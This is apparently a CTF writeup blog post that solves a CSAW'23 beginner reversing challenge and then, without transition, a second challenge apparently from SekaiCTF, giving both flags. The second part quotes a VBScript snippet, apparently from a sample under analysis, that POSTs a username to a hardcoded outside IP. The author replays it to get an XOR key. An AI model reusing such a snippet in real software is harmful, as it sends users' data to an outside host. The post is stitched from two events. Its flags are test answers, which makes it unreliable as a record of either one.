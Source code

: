```yaml
---
layout: post
title:  "CSAW'23 Quals"
date:   2023-09-18 09:41:40 +0530

---
```

>I had the privilege of participating in the CSAW'23 Quals CTF as a member of InfosecIITR, and it proved to be a great experience. I am delighted to share the writeups for the challenges my team and I successfully solved during the competition.

### Rev/Rebug1

```Description:-```
Can't seem to print out the flag :( Can you figure out how to get the flag with this binary?

```Challenge File:``` [file](./CSAW/test.out)

This challenge was beginner level reversing challenge. To see the decompiled code, open the provided binary in IDA and press F5.
![source-code](./CSAW/source-code.png)
According to the coed, the user is expected to input a 12-character string, and if the string length matches, they will receive a flag in response to the input.
Now run the binary and give any 12-character input and you'll get the flag.
![rev1flag](./CSAW/rev1flag.png)
Flag:- ```csawctf{c20ad4d76fe97759aa27a0c99bff6710}```






{% highlight ruby %}
 Dim http: Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
 Dim url: url = "http://20.106.250.46/sendUserData"

 With http
  Call .Open("POST", url, False)
  Call .SetRequestHeader("Content-Type", "application/json")
  Call .Send("{""username"":""" & strUser & """}")
 End With

 res = Msgbox("Thank you for your cooperation!", vbOKOnly+vbInformation, "")
{% endhighlight %}

From above snippet, it seems that POST request is to be sent to the given URL, after setting request header `Content-Type` to `application/json` and sending json payload

{% highlight ruby %}
 {
   "username":"admin"
 }   
{% endhighlight %}

I set username to `admin` and bravo !! I got the key..

 ![Key](./DefCon/image.png)
 
So with the key we XORed the downloaded XORed flag.png and yesss.. we got the flag !!
 ![Flag](./DefCon/flag.png)
 
Flag :- `SEKAI{so_i_guess_we'll_get_more_better_next_year-_-}`

 
 





